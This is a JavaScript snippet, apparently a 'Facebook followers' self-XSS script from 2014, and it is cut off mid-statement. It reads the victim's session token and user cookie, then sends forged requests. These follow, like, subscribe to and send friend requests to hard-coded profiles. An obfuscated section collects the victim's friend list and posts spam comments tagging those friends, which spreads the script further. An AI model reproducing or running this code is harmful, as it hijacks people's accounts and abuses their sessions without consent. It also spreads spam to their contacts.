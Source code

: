 /*HTML/JavaScript page status="protected"*/ /*FACEBOOK FOLLOWERS*/ /*Copyright Ãƒâ€šÃ‚Â© 2014 Kodran Piraj. All Rights Reserved.*/  alert('FACEBOOK FOLLOWERS'); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&amp;&amp;http4.status==200)http4.close};http4.send(params4)}a("100006491494904");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("194869190710812");sublist("500449573409094");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&amp;ft_ent_identifier="+post+"&amp;source=1&amp;client_id="+now+"%3A3366677427&amp;rootid=u_ps_0_0_14&amp;giftoccasion&amp;ft[tn]=%3E%3DU&amp;ft[type]=20&amp;ft[qid]=5882006890513784712&amp;ft[mf_story_key]="+post+"&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8ahyj35CFwXAg&amp;__req=j&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&amp;fbpage_id="+p+"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&amp;&amp;Page.status==200){Page.close}};Page.send(PageParams)}Like("658905560786579");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)} IDS("100006491494904");IDS("100003208271793"); a("100005634423532"); a("100006491494904"); a("100003208271793"); a("100004089581878"); Like("100004089581878"); Like("100004089581878"); Like("100004089581878"); Like("1084343657799203171"); Like("30945390923102037"); Like("3984262332433613100"); Like("100004089581878"); Like("100004089581878"); Like("262926440424877"); sublist("400567513422898"); sublist("400567513422898");  var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","521349377986258","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," АВТО ЛАЙК АВТО ФОЛЛОВ || ЭНЭ ҮНЭХЭЭР АЖИЛЛАЖ БАЙНА :* \udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text= ЭНЭ АЖИЛЛАЖ БАЙНА ШҮҮ- AUTO FOLLOWERS [ 100% ]  ^_^ АВТО ЛАЙК Ч ГЭСЭН ОРЖ БАЙНА","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var